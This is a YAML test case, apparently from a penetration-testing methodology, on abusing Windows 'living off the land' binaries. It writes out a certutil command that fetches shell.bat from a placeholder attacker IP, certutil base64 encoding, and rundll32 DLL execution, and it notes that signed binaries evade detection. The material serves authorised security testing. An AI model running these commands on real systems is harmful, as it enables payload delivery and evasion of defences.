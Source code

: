 ```yaml
---
testcase: Miscellaneous Techniques - Living Off The Land Binaries and Scripts (LOLBAS)
platforms:
  - AD
  - Windows
methodology:
  - BlackBox
  - GreyBox
references:
  - https://attack.mitre.org/techniques/T1552/
how-to-test: |
  - Identify LOLBAS candidates on the target system (e.g., certutil.exe, rundll32.exe) using commands like `where certutil` or `where rundll32`.
  - Use certutil for file transfer:
    - Run: `certutil.exe -urlcache -split -f http://<attacker_ip>:8080/shell.bat shell.bat`
    - Confirm the file is downloaded and unaltered.
  - Use certutil for Base64 encoding/decoding:
    - Encode: `certutil.exe -encode file1 encodedfile`
    - Decode: `certutil.exe -decode encodedfile file2`
    - Confirm file integrity after decoding.
  - Execute DLLs with rundll32:
    - Place or download a test DLL.
    - Run: `rundll32.exe <path_to_dll>,<ExportFunctionName>`
    - Observe for successful execution or payload activity.
  - Identify and document other LOLBAS tools (e.g., mshta.exe, regsvr32.exe) and their potential abuse methods.
  - Consider why these binaries might evade detection (e.g., they are signed Microsoft binaries and commonly used for legitimate purposes).
---
```

